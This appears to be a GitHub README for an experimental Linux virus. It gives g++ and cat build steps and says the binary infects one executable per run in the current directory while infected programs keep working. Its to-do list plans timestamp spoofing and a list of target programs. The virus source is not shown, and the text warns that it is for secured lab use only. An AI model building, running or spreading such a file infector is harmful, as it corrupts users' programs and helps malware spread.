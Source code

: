 This is a very simple EXPERIMENTAL virus program that runs in Linux.

This is a DANGEROUS experiment - Use only in a secured lab setup!

#### Bootstrap procedure

````
g++ -O -Wall -std=c++11 hi.cpp -o hi
g++ -O -Wall -std=c++11 v.cpp -o v_tmp && cat v_tmp hi >v && chmod +x v
ls -l v_tmp
````

Make sure the size of `v_tmp` is `MYSIZE` in the `v.cpp` source. Do another

````
g++ -O -Wall -std=c++11 v.cpp -o v_tmp && cat v_tmp hi >v && chmod +x v
````

#### Start

Run the virus bootstrap executable in a directory that contains other executables:

````
./v
````

This will infect one executable per run, until all files are infected.

* Infected files run like normal. The orginal code will be executed by the virus code
* Only executables in the current directory are infected

#### To Do

* Use the original file's time-stamp for the infected file
* Add a fixed list of programs that will be attacked
